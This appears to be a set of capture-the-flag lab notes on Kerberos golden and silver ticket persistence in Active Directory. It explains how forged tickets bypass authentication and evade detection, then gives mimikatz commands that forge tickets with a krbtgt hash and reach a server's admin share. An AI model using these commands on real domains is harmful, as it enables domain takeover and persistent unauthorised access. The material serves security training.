

# Persistence through tickets

## Kerberos authentication flow

Ticket Granting Ticket:

|  |
|:--:|
| As long as the session has not lapsed, the user can reuse the TGT as often as needed <br>to request a TGS. |

Ticket Granting Service:

|  |
|:--:|
| The TGS also has a service session key, and when the SP decrypts the ticket, the SP <br>will have a session key for the user. |

User Authentication:

|  |
|:--:|
| Deny/Allow |

Pass-the-Ticket requires both the ticket and the service session key in order to pass a TGS to a service principal 
to authenticate as a user. A TGT (Golden ticket) allows an attacker to request multiple TGSs (Silver tickets) on 
behalf of a user.

* When a user requests a TGS, they send an encrypted timestamp derived from their password. The algorithm used to 
create this key can be `DES` (disabled by default on newer Windows installations), `RC4`, `AES218`, or `AES256`, and can 
perhaps be extracted using `mimikatz`. If any of these keys are available on the host, then we can try to request a TGT 
as the user the `Pass-the-Key` way.
* The `RC4` hash is equal to a user's `NTLM` hash. If a users' NTLM hashes were dumped from LSASS during enumeration on 
a domain-joined host, and RC4 a valid encryption algorithm, then these are RC4 hashes, which could be used to request a 
TGT the `Overpass-the-Hash` way.

## Golden Tickets

Golden Tickets are forged TGTs. What this means is we bypass steps 1 and 2 of the diagram above, where we prove to the DC who we are. Having a valid TGT of a privileged account, we can now request a TGS for almost any service we want. In order to forge a golden ticket, we need the `krbtg` account's password hash so that we can sign a TGT for any user account we want. Some interesting notes about Golden Tickets:

* By injecting at this stage of the Kerberos process, we don't need the password hash of the account we want to impersonate since we bypass that step. The TGT is only used to prove that the KDC on a DC signed it. Since it was signed by the `krbtg` hash, this verification passes and the TGT is declared valid no matter its contents.
* Speaking of contents, the KDC will only validate the user account specified in the TGT if it is older than 20 minutes. This means we can put a disabled, deleted, or non-existent account in the TGT, and it will be valid as long as we ensure the timestamp is not older than 20 minutes.
* Since the policies and rules for tickets are set in the TGT itself, we could overwrite the values pushed by the KDC, such as, for example, that tickets should only be valid for 10 hours. We could, for instance, ensure that our TGT is valid for 10 years, granting us persistence.
* By default, the `krbtg` account's password never changes, meaning once we have it, unless it is manually rotated, we have persistent access by generating TGTs forever.
* The blue team would have to rotate the `krbtg` account's password twice, since the current and previous passwords are kept valid for the account. This is to ensure that accidental rotation of the password does not impact services.
* Rotating the `krbtg` account's password is an incredibly painful process for the blue team since it will cause a significant amount of services in the environment to stop working. They think they have a valid TGT, sometimes for the next couple of hours, but that TGT is no longer valid. Not all services are smart enough to release the TGT is no longer valid (since the timestamp is still valid) and thus won't auto-request a new TGT.
* Golden tickets would even allow you to bypass smart card authentication, since the smart card is verified by the DC before it creates the TGT.
* We can generate a golden ticket on any machine, even one that is not domain-joined (such as our own attack machine), making it harder for the blue team to detect.

Apart from the `krbtg` account's password hash, we only need the domain name, domain SID, and user ID for the person we want to impersonate. If we are in a position where we can recover the `krbtg` account's password hash, we would already be in a position where we can recover the other pieces of the required information.

## Silver Tickets

Silver Tickets are forged TGS tickets. So now, we skip all communication (Step 1-4 in the diagram above) we would have had with the KDC on the DC and just interface with the service we want access to directly. Some interesting notes about Silver Tickets:

* The generated TGS is signed by the machine account of the host we are targeting.
* The main difference between Golden and Silver Tickets is the number of privileges we acquire. If we have the `krbtg` account's password hash, we can get access to everything. With a Silver Ticket, since we only have access to the password hash of the machine account of the server we are attacking, we can only impersonate users on that host itself. The Silver Ticket's scope is limited to whatever service is targeted on the specific server.
* Since the TGS is forged, there is no associated TGT, meaning the DC was never contacted. This makes the attack incredibly dangerous since the only available logs would be on the targeted server. So while the scope is more limited, it is significantly harder for the blue team to detect.
* Since permissions are determined through SIDs, we can again create a non-existing user for our silver ticket, as long as we ensure the ticket has the relevant SIDs that would place the user in the host's local administrators group.
* The machine account's password is usually rotated every 30 days, which would not be good for persistence. However, we could leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account. Thereby ensuring the machine account remains static and granting us persistence on the machine.
* While only having access to a single host might seem like a significant downgrade, machine accounts can be used as normal AD accounts, allowing you not only administrative access to the host but also the means to continue enumerating and exploiting AD as you would with an AD user account.

## Forging tickets

`SSH` to `THMWRK1` with the unprivileged user account from the distributor.

    ssh user.name@za.tryhackme.loc@thmwrk1.za.tryhackme.loc

Start a powershell: 

    powershell.exe -ep bypass

Get the domain context:

```text
PS C:\Users\Administrator.ZA> Get-ADDomain
AllowedDNSSuffixes                 : {}
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc
DNSRoot                            : za.tryhackme.loc
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Start Mimikatz:

    PS C:\Users\Administrator.ZA> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

Forge a golden ticket:

    mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt

We can specify `/admin:ReallyNotLegitAccount` because of signing the TGT request with the `krbtgt` hash, so the KDC 
does not verify the identity. It just grants the TGT because it sees the `krbtgt` hash.

Forge a silver ticket:

    mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:thmserver1.za.tryhackme.loc /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt

Run the `dir` command against `THMSERVER1`:

    dir \\thmserver1.za.tryhackme.loc\c$\

## Resources

* [Sneaky Active Directory Persistence #16: Computer Accounts & Domain Controller Silver Tickets](https://adsecurity.org/?p=2753)
